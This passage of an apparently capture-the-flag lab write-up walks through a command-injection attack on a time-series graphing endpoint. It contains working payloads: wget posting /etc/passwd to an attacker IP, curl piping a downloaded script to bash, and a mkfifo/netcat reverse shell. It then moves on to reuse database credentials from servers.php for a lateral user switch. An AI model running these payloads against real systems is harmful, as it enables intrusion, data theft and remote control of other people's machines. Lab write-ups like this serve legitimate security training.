 And change `m` paramter to  `http.stats.web.hits`
```bash
/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=%5B33:system('wget%20--post-file%20/etc/passwd%20http://10.10.14.71/:2222/')%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

Through this payload I am just checking if I can read `/etc/passwd` file, running this with the same python file 

<img src="https://i.imgur.com/DHJFaBc.png"/>

Looking at our netcat listener we'll see that we have sent `/etc/passwd `file on our port 2222, to get a shell I tried running the reverse shell command directory with in the `system` arugment but it wasn't being executed so used `curl` to download this script shell having a netcat reverse shell and pipe it to bash to execute it

```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.71 2222 >/tmp/f
```


```bash
sudo python2 exploit.py -p 80 "http://10.10.11.137:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=%5B33:system('curl%20http://10.10.14.71:4444/shell.sh%7Cbash')%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```


<img src="https://i.imgur.com/tlTNu0N.png"/>

Stabilizing the shell with python3 

<img src="https://i.imgur.com/zgGC3Au.png"/>

I tried to run `sudo -l` to see if I can run anything as another user but it failed

<img src="https://i.imgur.com/2F6bN2s.png"/>

If we go into adminer's directory , there's a file named `servers.php` which has credentials to database

<img src="https://i.imgur.com/M6kYk1f.png"/>

Using this password for jennifer account , we'll be able to switch to that account

<img src="https://i.imgur.com/wWSjZqT.png"/>

Checked for SUID binaries but there wasn't any custom binary or some binary which isn't to be SUID only the default ones were shown, looking at local ports we can see port 8080 which is open

<img src="https://i.imgur.com/WbBVWDf.png"/>

Making a request to that port will tell that's using a software known as OpenCATS

<img src="https://i.imgur.com/44GRyob.png"/>
